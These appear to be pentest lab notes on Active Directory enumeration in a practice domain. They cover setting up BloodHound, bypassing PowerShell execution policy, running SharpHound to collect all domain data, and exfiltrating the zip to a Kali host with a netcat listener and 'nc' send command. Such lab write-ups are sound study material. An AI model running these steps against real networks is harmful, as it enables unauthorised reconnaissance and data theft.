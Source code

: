 ![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577783141364_image.png)


Login with neo4j account and neo4j account URL. - Bloodhoud setup and next step to pull data with injester.

## Pull data with In-jester

- invoke bloodhound - powershell 

Link: [https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1](https://github.com/BloodHoundAD/BloodHound/blob/master/Ingestors/SharpHound.ps1)


- Place onto windows 10 machine

Within command prompt setup ep bypass

    powershell -ep bypass

Call Sharphound.ps1

    . .\Sharphound.ps1

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577783538070_image.png)


Invoke Sharphound

    Invoke-Bloodhound -CollectionMethod All -Domain MARVEL.local -ZipFileName file.zip

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577784418100_image.png)


Move file to kali - Used `nc` file transfer method - downloaded `nc.exe` via SimpleHTTPServer on kali.

nc File Transfer Method:

- Kali setup listener:
    ncat -lvp 80 > file.zip

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786052957_image.png)

- Windows 10 machine
    nc -nv 192.168.175.129 80 < file.zip -w15

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786102033_image.png)


file received:

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786188527_image.png)


**Import file.zip into Bloodhound**
Upload file.zip via upload button within bloodhound:

![](https://paper-attachments.dropbox.com/s_D94CB79C33A1BA2B22BD21F66E8B42DCFAD52B114B1A46DC9EDFB5A1D4A8136D_1577786521879_image.png)

